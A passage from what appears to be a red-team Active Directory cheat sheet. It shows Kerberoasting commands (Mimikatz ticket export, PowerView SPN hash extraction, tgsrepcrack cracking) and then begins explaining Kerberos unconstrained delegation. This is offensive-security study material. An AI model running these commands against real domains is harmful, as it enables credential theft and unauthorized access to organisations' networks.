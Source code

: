 ### <span style="color:#F1C232">5. Export all the tickets</span>
 

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### <span style="color:#F1C232">Get hash of target directly (extra)</span>

```powershell
Get-DomainUser -Identity <user-here> | Get-DomainSPNTicket | select -ExpandProperty Hash
```

## <span style="color:lightgreen">tgsrepcrack</span>

### <span style="color:#F1C232">6. Crack the Hash</span>
  
```console
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\file-name-which-got-exported.kirbi
```


# <span style="color:lightblue">Unconstrained Delegation</span>

* Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server".
* This is typically useful in multi-tier service or applications where Kerberos Double Hop is required
* For example, users authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account.
* Please note that, for the above example, the service account for web service must be trusted for delegation to be able to make requests as a user.

## <span style="color:lightgreen">A Quick Explanation</span>

![uc-del](https://user-images.githubusercontent.com/59029171/163350877-ac24527c-23ed-4750-bcf0-35fccc7c65e3.png)

1. A user provides credentials to the Domain Controller.
2. The DC returns a TGT.
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS.
5. The user sends the TGT and TGS to the web server.
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

## <span style="color:lightgreen">Types of Delegations</span>
